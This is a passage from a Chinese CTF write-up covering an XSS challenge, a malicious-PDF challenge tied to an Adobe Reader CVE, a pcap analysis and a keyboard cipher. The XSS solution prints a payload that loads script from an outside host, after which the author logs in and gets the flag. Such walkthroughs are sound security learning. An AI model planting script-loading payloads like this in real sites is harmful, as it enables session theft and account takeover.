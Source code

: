 然后提交

```html

<script src=http://km2.in/360.js></script>

```

登陆之后成功拿到flag

![2881738072](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2881738072.png)

**re80**

这个题目的pdf下载下来360直接报毒，然后打开空白，以前在一个ctf也遇到过。就是找到受影响的adobe reader的版本，然后打开就行了。然后这次就有经验了。先用kali下面的peepdf跑了一发，然后发现是一个cve


![3089303335](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3089303335.png)

然后谷歌cve编号，发现


![2801919870](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2801919870.png)

8.1.2下的版本都受影响。然后在虚拟机里下载了一个adobe reader，然后运行就是直接弹flag了。


![1238260674](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1238260674.png)



**网络协议20**

下载完数据包之后，然后过滤http请求



![1473484822](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1473484822.png)

然后丢到chrome的console解密


![752797495](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-752797495.png)



![3517484944](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3517484944.png)



![741077206](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-741077206.png)


![4135195828](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-4135195828.png)



**加解密10**

BHUK,LP TGBNHGYT BHUK,LP UYGBN TGBNHGYT BHUK,LP BHUK,LP TGBNHGYT BHUK,LP TGBNHGYT UYGBN
